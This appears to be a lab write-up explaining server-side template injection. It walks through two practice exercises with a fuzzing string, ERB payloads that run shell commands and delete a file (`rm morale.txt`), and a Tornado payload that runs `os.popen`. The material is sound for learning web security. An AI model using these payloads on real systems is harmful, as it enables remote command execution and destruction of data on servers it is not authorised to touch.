 # Server-side Template Injection
Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server.

## Detect
Try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`. If an exception is raised, this indicates that the injected template syntax is potentially being interpreted by the server in some way.

### LAB: Basic server-side template injection
Click on the first product. Notice there is a text indicating the stock status of this product which is getting from this parameter in the URL:

    ?message=Unfortunately%20this%20product%20is%20out%20of%20stock

Try changing it to something arbitrary:

    ?message=<%a%>

We got an internal server error indicating the template it used is `ERB`. Try a valid `ERB` template syntax:

    ?message=<%`ls -l`%>

This is an OS command showing the content of the current directory. The server is returning us:

    total 8
    -rw-rw-r-- 1 carlos carlos 6816 Mar 12 02:16 morale.txt

This indicates that we can successfully inject OS command into the server side template engine. Use this to delete the target file:

    /?message=<%= `rm morale.txt` %>

### LAB: Basic server-side template injection (code context)
Notice the `POST /my-account/change-blog-post-author-display HTTP/2` request which use:

    blog-post-author-display=user.first_name

This indicates that the server might be using some kind of template engine. Try fuzzing the value to this:

    blog-post-author-display=${{<%[%'"}}%\

Post a comment and visit that comment again to find an error indicating that the server is using `Tornado` template in Python. Resend the request using this parameter:

    blog-post-author-display=__import__('os').popen('ls+-l').read()

Visit the comment and find out that the command is executed and returned as the author's name"
